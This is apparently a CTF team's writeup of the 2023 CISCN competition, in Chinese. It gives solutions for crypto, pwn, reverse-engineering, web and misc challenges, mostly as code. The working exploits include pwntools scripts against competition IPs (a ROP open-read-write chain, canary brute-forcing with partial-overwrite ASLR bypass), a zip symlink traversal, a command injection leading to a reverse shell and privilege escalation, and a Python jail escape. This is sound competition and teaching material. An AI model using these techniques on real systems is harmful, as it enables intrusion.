






# 2023 ciscn WriteUp by HED
`HED是南方科技大学COMPASS实验室的CTF战队`  

- [2023 ciscn WriteUp by HED](#2023-ciscn-writeup-by-hed)
  - [Crypto](#crypto)
    - [day1 基于国密SM2算法的密钥密文分发](#day1-基于国密sm2算法的密钥密文分发)
    - [day1 Sign\_in\_passwd](#day1-sign_in_passwd)
    - [day2 badkey1](#day2-badkey1)
    - [day2 bb84](#day2-bb84)
  - [PWN](#pwn)
    - [day1 烧烤摊儿](#day1-烧烤摊儿)
    - [day2 funcanary](#day2-funcanary)
  - [RE](#re)
    - [day1 moveAside](#day1-moveaside)
    - [day2 babyRE](#day2-babyre)
  - [web](#web)
    - [day1 unzip](#day1-unzip)
    - [day2 dumpit](#day2-dumpit)
  - [MISC](#misc)
    - [day1 签到](#day1-签到)
    - [day1 被加密的生产流量](#day1-被加密的生产流量)
    - [day2 pyshell](#day2-pyshell)
    - [day2 问卷](#day2-问卷)

  

## Crypto
### day1 基于国密SM2算法的密钥密文分发
虽然可以一步一步调库进行计算，但是由于服务器对 `/api/search` 的管理不是十分到位，于是我们就可以通过访问 `/api/allkey`, `/api/quantum` 接口，让服务器生成对应的密钥，然后再访问 `/api/search` 就可以获得服务器密钥明文，然后 `/api/check` 一下即可。

```js
const BASE_URL = 'http://IP:PORT'

async function post(url, data) {
    return await fetch(BASE_URL + url, {
        method: 'POST',
        headers: { "Content-Type": "application/json" },
        body: JSON.stringify(data),
    })
}

async function main() {
    r = await post('/api/login', {
        school: '...',
        name: '...',
        phone: '...',
    });
    id = (await r.json()).data.id;

    const publicKey = '031e92b2d450aa111da2d4cc01a532eb277654d442896bd5e4b66cdfb83ff94dfd';

    r = await post('/api/allkey', { id, publicKey });
    r = await post('/api/quantum', { id });
    r = await post('/api/search', { id });  // 查询服务器量子密钥
    data = await r.json();

    r = await post('/api/check', {
        id,
        quantumString: data.data.quantumStringServer,
    });

    r = await post('/api/search', { id });
    data = await r.json();
    console.log(data);  // flag HERE
}

main()
```

### day1 Sign_in_passwd
base64换表给表
  

### day2 badkey1

翻阅 PyCryptodome 源码，发现唯一可以利用的点是：

```python
            if Integer(n).gcd(d) != 1:
                raise ValueError("RSA private exponent is not coprime to modulus")
```

需要构造 d 是 p 的倍数。

$$
\begin{align}
ed &\equiv 1 \pmod{\varphi(n)} \\
ed &= k(p-1)(q-1)+1 \\
emp &= k(p-1)(q-1)+1 \\
em &\equiv 1 \pmod{p-1}
\end{align}
$$

随机生成 p，求出对应的逆元 m。

$$
\begin{align}
emp &= k(p-1)(q-1)+1 \\
k(q-1) &= (emp-1)/(p-1) = g
\end{align}
$$
计算得到  g，它的长度大于 512bits。对 g 进行因式分解，找到 g 的小因子，枚举所有可能的因子组合得到可能的 q，检查 q 的长度为 512bits 而且是质数。最后进行 `RSA.construct()` 来验证解。


```python
from Crypto.Util.number import *
from Crypto.PublicKey import RSA
from functools import reduce
import itertools
import operator

e = 65537

def valid(p, q):
    try:
        assert p > 0
        assert q > 0
        assert p != q
        assert p.bit_length() == 512
        assert q.bit_length() == 512
        assert isPrime(p)
        assert isPrime(q)
        n = p * q
        assert p % e != 1
        assert q % e != 1
        d = inverse(e, (p-1)*(q-1))
    except:
        print("Invalid params")
    try:
        key = RSA.construct([n,e,d,p,q])
        print("This is not a bad RSA keypair.")
    except KeyboardInterrupt:
        print("Hacker detected.")
    except ValueError:
        print("How could this happen?")
        exit()


def get_subsets_product(nums):
    subsets = itertools.chain.from_iterable(itertools.combinations(nums, r) for r in range(len(nums)+1))
    products = [reduce(operator.mul, subset, 1) for subset in subsets]
    return products


while True:
    p = getPrime(512)
    m = inverse(e, p-1)
    g = (e*m*p-1)//(p-1)
    print(g)

    f = []
    for i in range(2, 100000):
        while g % i == 0:
            f.append(i)
            g //= i
    print(f)
    print(g.bit_length(), g)

    if g.bit_length() <= 512:
        products = set(get_subsets_product(f))
        print(products)
        for product in products:
            q = g*product+1
            if q.bit_length() == 512 and isPrime(q):
                print("m =", m)
                print("p =", p)
                print("q =", q)
                valid(p, q)

"""
m = 739662064870849344381206806184175992877839090213520670251993876722483241877948397023123405984485744758150988206982230375604910547042328474782788374141431
p = 9076059304519912653568835509622232174730376419270455751040052929930983752659633794365182298821427121178607248477999331983901708017508534216783299321495407
q = 7450850406615563092946687743143612364776351130544651731679207300762585954957747324885404035967605633909459162945126718740550111054643879688263080491255299
"""

```


### day2 bb84

阅读材料的大意是：

```
EPC1	4	2	1	2
APD1	0	0	0	0
APD2	0	0	0	1
APD3	0	0	0	0
APD4	0	0	0	0
```

APD1 到 4 中有且只有一个为 1，并且和 EPC1 相等，则这位可以采用为密钥。
或者 APD1 到 4 中有且只有一个为 1，和 EPC1 不相等，但是在同一个基（如APD1=1，EPC1=2），那么这位需要纠错，纠错之后可以采用。
将整个序列筛选之后得到可用的序列，然后根据线性同余生成真正的密钥。

**另外材料中提到了用熵计算安全密钥量，然后把它作为模数。这是一个误导，我在这里卡了很久**。因为采用的随机数序列的长度显著多于计算出的安全密钥量，不知道如何选出相应的安全密钥。实际上题目的做法是直接把随机数序列的长度当作安全密钥量，不需要计算熵。

之后就是经典的生成流密码，逐个异或。

```python
import csv

with open('info.csv', 'r') as file:
    reader = csv.reader(file, delimiter=',')
    data = list(reader)

key = []
error = 0

for i in range(1, len(data[0])):
    pos = []
    for j in range(1, 5):
        if data[j][i] == '1':
            pos.append(j)
    if len(pos) == 1:
        ex = int(data[0][i])
        if pos[0] == ex:
            key.append((pos[0]+1)%2)
        elif (pos[0]-1)//2==(ex-1)//2:
            #key.append(f'x{(ex+1)%2}')
            key.append((ex+1)%2)
            error += 1

M = len(key)

l = len(c)//2*8
A = 1709
B = 2003
x = 17
gen_key = []
for i in range(l):
    s = ''
    for j in range(8):
        if type(key[x])==int:
            s += str(key[x])
        else:
            s += key[x][1:]
        x = (A*x+B)%M
    gen_key.append(int(s, 2))

hex_values = [int(c[i:i+2], 16) for i in range(0, len(c), 2)]
for i in range(len(hex_values)):
    print(chr(hex_values[i]^gen_key[i]), end='')
```

## PWN
### day1 烧烤摊儿
静态编译栈溢出 没system没exec 标准ORW
```python
from pwn import *

p = remote("123.56.99.60", 26637)
e = ELF('shaokao')

p.sendlineafter(b'>', b'1\n1\n-9999')
p.sendlineafter(b'>', b'4')
p.sendlineafter(b'>', b'5')
context.arch = 'amd64'
r = ROP(e)
flag_str = b'/flag\x00'
r.call(e.symbols['read'], [0, e.bss() + 100, len(flag_str)])
r.call(e.symbols['open'], [e.bss() + 100, 0, 0])
r.call(e.symbols['read'], [3, e.bss() + 100, 100])
r.call(e.symbols['write'], [1, e.bss() + 100, 0x101])
r.call(e.symbols['write'], [1, e.bss() + 100, len(flag_str)*9])
p.sendline(b'a' * (0x20 + 8) + r.chain())
p.sendline(flag_str)
#gdb.attach(p)
p.interactive()
```
  

### day2 funcanary
抢一血没写循环直接展开了  
fork爆破canry 板子
然后有ASLR 有win 短跳爆破4bit即可
```python
import struct

from pwn import *

cn = remote("39.106.48.123", 27305)

cn.recvuntil(b'welcome\n')

canary = b'\x00'
for j in range(7):
    for i in range(0x100):
        cn.send(b'a' * 104 + canary + struct.pack('B', i))
        a = cn.recvuntil(b'welcome\n')
        if b'have fu' in a:
            canary += struct.pack('B', i)
            print(canary)
            break

x = 8
cn.send(b'a' * 104 + canary + b'a' * x + b'\x31\x02')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\x12')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\x22')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\x32')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\x42')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\x52')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\x62')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\x72')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\x82')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\x92')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\xa2')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\xb2')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\xc2')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\xd2')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\xe2')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\xf2')
cn.recvuntil(b'welcome')
```

## RE
### day1 moveAside  

一年前做过的题，当时我写的的超级详细题解：  
https://github.com/GhostFrankWu/CS315-ComputerSecurity/blob/main/week5/wp.md   
第一天结束后发现GitHub统计访客50多   
  

核心就是去混淆之后找到用作jmp的mov指令，还有就是要知道mov混淆似乎一定有逐字节比较的地方，断在这里爆破就行了  
```python
from pwn import *

#            flag{xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxx3861}
flag = list('flag{781dda4e-d910-*********************}')
stri = "0123456789abcdef-ghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_{}"

sp = b"LEGEND: "
context.log_level = 'critical'


for i in range(19, 43):
    for j in range(len(stri)):
        p = process(["gdb", "fuck"])
        p.sendline(b"b *0x8052A92")
        p.sendline(b"r")
        tr = [x for x in flag]
        tr[i] = stri[j]
        p.sendline(''.join(tr).encode())
        _ = p.recvuntil(sp)
        print(f'No.{i + 1}, trying {stri[j]}, now flag is {"".join(flag)}')
        for c in range(i-1):
            p.sendline(b'c')
            _ = p.recvuntil(sp)
        p.sendline(b'c')
        r = p.recvall(0.3)
        if sp in r:
            print("hit!!!!")
            flag[i] = stri[j]
            print(''.join(flag))
            p.close()
            break
        else:
            p.close()


print(''.join(flag))
```
炫酷的界面（雾
  

### day2 babyRE
撞车队友：  

网上随便看了点Snap!的资料，定位到flag判断逻辑，根据`secret`简单做一波异或运算还原输入`key`即flag

```python
secret = [102, 10, 13, 6, 28, 74, 3, 1, 3, 7, 85, 0, 4, 75, 20, 92, 92, 8, 28, 25, 81, 83, 7, 28, 76, 88, 9, 0, 29, 73, 0, 86, 4, 87, 87, 82, 84, 85, 4, 85, 87, 30]

key = 'f'

for i in secret[1:]:
    next_char = chr(ord(key[-1]) ^ i)
    key += next_char

print(key)

```
 
```python
d = [(92, 1), (92, -1), (8, -1), (28, -1), (20, 1), (25, -1), (75, 1), (81, -1), (83, -1), (0, 1), (7, -1), (28, -1),
     (85, 1), (76, -1), (88, -1), (4, 3), (9, -1), (7, 1), (0, -1), (29, -1), (73, -1), (1, 1), (0, -1), (3, 2),
     (86, -1), (4, -1), (74, 1), (87, -1), (3, 2), (87, -1), (82, -1), (28, 1), (84, -1), (85, -1), (6, 1), (4, -1),
     (85, -1), (13, 1), (87, -1), (10, 1), (102, 1), (30, -1)]

l = []
for i in d:
    print(l)
    if i[1] != -1:
        l.insert(i[1] - 1, i[0])
    else:
        l.insert(len(l), i[0])

c = 0
for i in l:
    c ^= i
    print(chr(c), end="")
```

## web
### day1 unzip
代码长得和上周春秋杯的题完全一致  
题目没给Dockerfile，大概不是历史漏洞，03年之后的zip就不能目录穿越了       

创建一个指向文件夹的软链 ln -s /var/www/html www && zip -y x.zip www  
然后压缩一个带一句话的www文件夹解压就可以了  

### day2 dumpit
dump和注入分开 query屏蔽的并不多，但提示要做到rce   
dump几乎都是用命令行工具做，果然在dump的地方可以命令拼接   
然后发现没权限读flag 弹shell   
  

跑linpeas提权时候在环境变量里出了  

## MISC
### day1 签到
python任意代码 签到 
### day1 被加密的生产流量
发现 query 中的 word count 不符合定义。之前请求了非常大的数字，后期全部请求 5。
追踪 TCP 流发现，word count 刚好形成了 ascii 字符。将其提取并解码。
`MMYWMX3GNEYWOXZRGAYDA===` base32 解码得到 `c1f_fi1g_1000`。

### day2 pyshell
虽然服务器禁止了赋值操作，并且每行的长度也有限制  
对于第一个限制，可以用 REPL 中的 _ 来获取上一条语句的值  
对于第二个限制，可以分多行输入（此时每输入一行都需要重新 nc 连接）  
所以最终 payload 为  
```python
'/flag'
open(_)
[I for
I in 
_]
```

### day2 问卷
问卷
